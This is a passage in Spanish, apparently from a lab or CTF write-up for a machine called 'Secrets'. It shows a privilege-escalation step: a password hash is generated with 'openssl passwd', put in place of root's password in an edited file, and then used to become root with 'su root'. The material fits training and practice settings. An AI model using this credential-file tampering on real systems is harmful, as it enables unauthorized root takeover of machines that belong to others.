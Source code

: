 <img class="img" src="/assets/img/machines/Secrets/11.png" width="1000">
Ahora lo que hice fue generar una hash de una password con openssl y cambiar la password de root con la mía.
```bash
openssl passwd
Password: 
Verifying - Password: 
$1$Gz3ZSzg4$.ieH68.jHyWNGwmtiXBBB1
```
<img class="img" src="/assets/img/machines/Secrets/12.png" width="800">
Y guarde los cambios.
<img class="img" src="/assets/img/machines/Secrets/13.png" width="800">
Cerré el editor y probé loguearme como root con la clave que había ingresado.
```bash
fabian@secrets:/home/brad$ su root
Contraseña: 
root@secrets:/home/brad# whoami
root
root@secrets:/home/brad#
```